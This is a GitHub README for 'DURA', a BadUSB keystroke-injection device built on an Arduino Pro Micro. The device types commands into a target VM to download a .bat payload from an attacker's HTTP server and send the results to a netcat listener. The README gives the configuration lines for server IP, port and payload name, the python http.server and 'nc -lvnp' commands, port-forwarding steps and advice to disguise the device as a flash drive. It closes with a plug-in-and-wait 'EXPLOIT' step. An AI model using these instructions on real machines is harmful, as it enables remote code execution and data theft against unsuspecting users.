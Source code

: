 # DURA - BadUsb project
## About
DURA is Bad USB, which deploys file on VM and sends output to external server(nc listener). \
Made with Arduino Pro Micro. Wrote with C++. 
## Build
### Tech part
For DURA you will need arduino pro micro or any other board, which supports Keyboard.h. \
Also i used father-father microUSB to USB micro-wire to make it look more like USB flash. \
You can see blueprint down below.

![Alt text](assets/shema.png "title")

### Code Compiling
To upload script to Arduino you will need Arduino IDE. \
You can install it here - https://www.arduino.cc/en/software. \
Open .ino script with Arduino IDE, install Keyboard.h in libraries manager.\
Also edit this part of code to your AM ip, port and payload name. \
```
String ipGET = "0.0.0.0:8000"; // GET server ip and port. Format: 0.0.0.0:8000
String ipPOST = "0.0.0.0:8001"; // NetCat listener ip and port. Format: 0.0.0.0:8000
String payloadName = "example.bat"; // Name of payload. Payload must be in the main folder of server.
```
If you have not .bat payload, you might change 31, 35 and 58 strings of code. \
Click "Upload" and it`s done! 

### Server Setup
To set server you`ll need NetCat and Python. \
Also your router must have 2 forwarding ports from your device (8000 and 8001 in my case). 

To setup Python server(to upload file to VM) you must enter this command:
```
# python3 -m http.server 8000
```

To setup NetCat listener(to get results) you must enter this command:
```
# nc -lvnp 8001
```
### EXPLOIT!!!
To exploit you need just to plug device in VM and wait 8-10 seconds.

## That`s it!
Hope you like this project! \
Follow me on GitHub!



